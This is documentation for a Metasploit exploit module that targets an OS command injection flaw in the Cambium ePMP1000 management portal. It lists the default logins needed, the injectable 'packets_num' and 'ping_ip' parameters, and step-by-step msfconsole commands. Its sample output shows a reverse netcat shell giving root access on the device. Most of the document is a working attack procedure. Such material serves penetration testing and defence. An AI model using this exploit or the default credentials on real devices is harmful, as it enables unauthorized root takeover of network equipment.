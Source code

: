 This module exploits an OS Command Injection vulnerability in Cambium ePMP1000 device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to set up a reverse netcat shell.

This module injects the payload in 'packets_num' parameter. Alternatively, a second, vulnerable parameter 'ping_ip' can also be used.

Note: `cmd/unix/reverse_netcat` is the only payload that seems to work and is stable. After the session is opened, there may be a slight delay in response after first command is issued. There are no delays in receiving responses to subsequent command(s). It is recommended to use 'exploit -j'.

## Verification Steps

1. Do: ```use exploit/unix/http/epmp1000_ping_cmd_shell```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set LHOST [IP]```
5. Do: ```exploit -j```

## Sample Output

  ```
msf > use use exploit/unix/http/epmp1000_ping_cmd_shell
msf exploit(epmp1000_ping_cmd_shell) > set RHOST 192.168.0.2
msf exploit(epmp1000_ping_cmd_shell) > set RPORT 80
msf exploit(epmp1000_ping_cmd_shell) > set LHOST 192.168.0.104
msf exploit(epmp1000_ping_cmd_shell) > exploit -j

[*] Started reverse TCP handler on 192.168.0.104:4444 
[+] SUCCESSFUL LOGIN - 192.168.0.2:80 - "installer":"installer"
[*] Sending payload...
[*] Command shell session 10 opened (192.168.0.104:4444 -> 192.168.0.2:43594) at 2017-12-02 06:08:00 +0700

msf exploit(epmp1000_ping_cmd_shell) > sessions -l

Active sessions
===============

  Id  Type            Information  Connection
  --  ----            -----------  ----------
  10   shell cmd/unix               192.168.0.104:4444 -> 192.168.0.2:43594 (192.168.0.2)

msf exploit(epmp1000_ping_cmd_shell) > sessions -i 10
[*] Starting interaction with 10...

id
uid=0(root) gid=0(root)

  ```
